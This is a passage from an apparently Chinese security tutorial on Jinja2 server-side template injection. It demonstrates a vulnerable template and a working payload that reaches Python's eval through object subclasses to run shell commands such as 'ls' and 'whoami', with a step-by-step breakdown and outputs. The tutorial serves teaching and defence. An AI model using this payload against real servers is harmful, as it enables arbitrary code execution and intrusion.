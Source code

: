 模板文件接收了名为`x`的传入参数，并且将参数值回显到页面上。  
启动服务，手动传入参数，可以看到功能正常，其中参数`x`的值完全可控：

[![](https://img2022.cnblogs.com/blog/2957280/202209/2957280-20220908111601153-1640426204.png)](https://img2022.cnblogs.com/blog/2957280/202209/2957280-20220908111601153-1640426204.png)

尝试写入 Jinja2 的模板语言，发现模板引擎成功解析。说明模板引擎并不是将我们输入的值当作字符串，而是当作代码执行了。

[![](https://img2022.cnblogs.com/blog/2957280/202209/2957280-20220908111634928-1265252920.png)](https://img2022.cnblogs.com/blog/2957280/202209/2957280-20220908111634928-1265252920.png)

那么，攻击者就可以通过精心构造恶意的 Payload 来让服务器执行任意代码，造成严重危害。下图通过 SSTI 命令执行成功执行 whoami 命令：

[![](https://img2022.cnblogs.com/blog/2957280/202209/2957280-20220908111751037-1868071251.png)](https://img2022.cnblogs.com/blog/2957280/202209/2957280-20220908111751037-1868071251.png)

## Payload解析

先上Payload：

```python
{{''.__class__.__base__.__subclasses__()[1].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls").read()')}}
```

下面分步对每一步代码进行分析：

1. 首先考虑拿到一个class，通过字符串、元组、列表、字典均可。

```python
{{''.__class__}}
# <class 'str'>
{{().__class__}}
# <type 'tuple'>
{{[].__class__}}
# <type 'list'>
{{{}.__class__}}
# <type 'dict'>
```

2. 下一步目的是拿到object基类。

```python
{{''.__class__.__base__}}
# <class 'object'>
```

3. 然后获取对应子类。

```python
{{''.__class__.__base__.__subclasses__()}}
# [<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, ...
```

4. 在所有的子类中选择一个可用的类，去获取__globals__全局变量。如果这些函数并没有被重载，这时他们并不是function，不具有__globals__属性。

```python
{{''.__class__.__base__.__subclasses__()[128]}}
# <class 'os._wrap_close'>
```
